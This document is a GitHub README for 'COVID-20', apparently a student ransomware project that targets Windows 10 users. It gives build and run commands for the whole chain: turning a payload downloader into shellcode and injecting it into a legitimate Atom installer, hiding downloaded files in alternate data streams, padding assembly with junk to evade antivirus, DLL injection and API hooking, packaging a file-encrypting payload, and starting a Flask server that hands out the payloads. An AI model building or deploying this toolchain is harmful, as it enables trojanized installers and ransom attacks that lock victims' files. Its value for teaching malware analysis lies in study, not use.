 # COVID-20 Ransomware

COVID-20 is a ransomware that encrypts several types of files in a smart way and asks for a rescue in order to retrieve the encryption key. This ransomware is designed to target Windows users, more precisely Windows 10 users. This project was done during the Malware subject of the UPC Master's Degree in Cybersecurity.

**DISCLAIMER: This project was done for educational purposes. We are not responsible for the use you give it.**

## Infection
For the infection part we decided to use *code resizing* technique. This consits in modifing the size of a section of a *.exe* file in order to add the malicous code

For this, we have the following files, located in */infection* directory:
- PE.cpp
- PE.h
- InfectPE.cpp -> These three first files are a customization made by us of the [InfectPE](https://github.com/secrary/InfectPE) project
- payloadDownloader.cpp -> code that after will become the shellcode that will be injected in a legitimate exe file
- AtomSetupHealthy.exe -> Atom installer without being infected
- AtomSetup.exe -> The Atom installer infected
- ShellcodeCompiler_x64.exe -> C/C++ compiler that not generates 0's in the shellcode. Extracted from [here](https://github.com/NytroRST/ShellcodeCompiler).

### Create shellcode
From C/C++ to assembly.
```sh
> ShellcodeCompiler_x64.exe -r payloadDownloader.cpp -a Asembly_NoJunk.asm -p win_x86
```
You have the assembly code of the `payloadDownloader.cpp` in the */infection* directory.


Assembly to shellcode.
```sh
$ nasm -f win32 Asembly_NoJunk.asm 
$ objcopy -j .text -O binary Asembly_NoJunk.obj binary.bin
$ hexdump -v -e '"\\" 1/1 "x%02x"' binary.bin
```

### Infect a file
Put the shellcode inside the infectPE.cpp (only accepts x86 executables). A posible option of executable file to infect is this [AtomInstaller](https://github.com/atom/atom/releases/download/v1.53.0/AtomSetup.exe)

```sh
> g++ -c PE.cpp -std=c++17
> g++ -c InfectPE.cpp -std=c++17
> g++ -o InfectPE.exe InfectPE.o PE.o
> .\InfectPE.exe .\executable_to_infect.exe .\executable_infected.exe
```
You have a compilation of it in `InfectPE.exe` file that is ready to be used.
### List hidden files
To hide the files downloaded by `downloadPayload.cpp` file, we use a techinque based in adding `:` at the end of the file, followed by an identifier. The only way to list these files, is typing the following command in the terminal, inside the directory that are intended to list:

```sh
> dir /R
```

## Anti anti-virus techniques
In order to avoid being detected by an antivirus or a forensic analyst, we decided to add junk instructions to the assembly code generated during the infection part. The `Asembly_Junked.asm` file has the assembly code with all the junk instructions that we added. You can find this file in */anti-techinques* directory.

## Obfuscation
For the obfuscation part, the following files are necessary, which can be found in */Obfuscation* directory:

- ManualMappingTutorial.exe
- APIHooking.dll

You can find the source code of both files in */InjectDLL* and */APIHooking.dll* respectively. To compile it, import both directories as a ***Visual Studio*** project.

## Encryption
In */encryption* directory you will find the following files:

- payload.py -> payload's source code
- payload.exe -> payload's executable
- /test -> directory to test the payload. It contains *.jpg* and *.exe* files 

If you want to modify the `payload.py` and generate a new executable, you can do it with the next command:

```sh
$ pyinstaller payload.py --onefile --console
```
## Malserver
Our Malserver has the following dependences:
- Flask

```sh
$ pip3 install Flask
```

To execute the server:

```sh
$ sudo python3 server.py
```

A part from that, you also need to have the following files in the same directory as the `server.py` file are:

- payload.exe
- ManualMappingTutorial.exe
- APIHooking.dll

`server.py` file is located in */server* directory.

## Old versions
Instructions about how to use the preliminar versions that the project had at any moment during the development. You can find the codes in */old* directory

```sh
> g++ -c processCreator.cpp
> g++ -o procesCreator.exe processCreator.o
> .\processCreator.exe executable_to_execute.exe

> g++ -c shellcodeExecuter.cpp
> g++ -o shellcodeExecuter.exe shellcodeExecuter.o
> .\shellcodeExecuter.exe
```

## Creators
- Cankut Askan
- Albert Azemar
- Ismael Douha
- Marti Fernandez
